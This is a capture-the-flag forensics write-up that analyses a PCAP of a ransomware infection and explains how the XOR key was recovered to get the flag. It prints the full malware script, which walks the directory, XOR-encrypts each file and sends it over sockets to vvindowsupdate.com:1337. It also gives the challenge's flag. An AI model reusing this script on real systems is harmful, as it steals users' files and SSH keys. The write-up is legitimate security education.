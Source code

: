 # Description
Author: @Jstith

We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.

Download the file(s) below.

# Files
`1337-malware.pcapng`

# Malware
When openning the capture in Wireshark, on of the first packets is a GET request to `vvindowsupdate.com` for `/rans.py` and it is soon followed by the response, which has the code: 

```py
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)

def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths

files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

From this, we can see the "broken" part of the script is that the hacker doesn't know the key they used to xor the data with. 
We can also see from the code that each time the data is transmitted, it's precided by a packet giving the full path to the file. 

# Getting the key
Using wireshark, we can follow each of the TCP streams and export the data, and also know what each file was supposed to be. There were 5 in total:
```
/home/davey/Documents/resources.zip
/home/davey/Documents/ecorp.png
/home/davey/Documents/Welcome Aboard.pdf
/home/davey/Documents/.ssh/id_rsa
/home/davey/Documents/.ssh/id_rsa.pub
```

to get the key, xor the original data with the output data. 
We know that the key is 32 bytes long from the source code. 
Of the data files, the id_rsa file will have a header that's long enough.
then xor the encrypted data with the key to get the original files. 
Open the pdf to get the zip password
open the zip to get the flag `flag{c95c4ff18b0eb88123de779051a7a24f}`
